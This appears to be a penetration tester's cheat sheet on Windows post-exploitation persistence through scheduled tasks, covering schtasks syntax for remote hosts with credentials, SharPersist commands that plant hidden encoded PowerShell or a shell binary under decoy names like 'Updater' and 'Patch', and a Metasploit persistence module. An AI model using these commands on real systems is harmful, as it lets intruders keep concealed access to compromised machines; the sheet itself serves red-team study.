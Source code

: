 # Schtasks

## 01 - Command Prompt

### 2.1 - Help Menu

#### 2.1.1 - Create Task Syntax

```
C:\> schtasks.exe /create /tn "<task_name>" /tr "<commands>" /sc <minute | hourly | daily | weekly | monthly | once | onstart | onlogon | onidle> <[/st HH:MM:SS | /st <MM/DD/YYYY>]> [/sd <MM/DD/YYYY>] [/it] [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]

/create => create a schedule task
/sc => type of schedule
/st => start time
/tn => task name
/tr => task run
/it => Make it interactive when the user is using his computer
/s => computer IP
/ru => specify the username: { [DOMAIN\]<username> | system }
/rp => specify the password
```

#### 2.1.2 - Run Task Syntax

```
C:\> schtasks.exe /run /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

#### 2.1.2 - Stop Task Syntax

```
C:\> schtasks.exe /stop /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

#### 2.1.3 - Delete Task Syntax

```
C:\> schtasks.exe /delete /f /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

#### 2.1.4 - Query Task Syntax

```
C:\> schtasks.exe /query /f /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

### 2.2 - Usage

```
C:\> net.exe time

PS C:\> Get-Date

C:\> schtasks.exe /query /tn "<task_name>" /fo List /v /s <IP>

C:\> schtasks.exe /delete /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru [DOMAIN]\<username> /rp <password>

C:\> schtasks.exe /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru system
```

## 02 - SharPersist

```
C:\> SharPersist.exe -t schtask -c "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -n "Updater" -m add -o hourly

C:\> SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m add -o logon

C:\> SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m check

C:\> SharPersist.exe -t schtaskbackdoor -m list -o logon
```

## 03 - Metasploit

TODO: Fill this info

```
msf > use exploit/windows/local/s4u_persistence
```

---
## References

- [[Windows Post Exploitation Persistence References]]

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

- [Pentestlab Blog: Persistence Scheduled Tasks](https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/)

- [Cobalt Strike: Schtasks Persistence with Powershell one liners](https://www.cobaltstrike.com/blog/schtasks-persistence-with-powershell-one-liners/)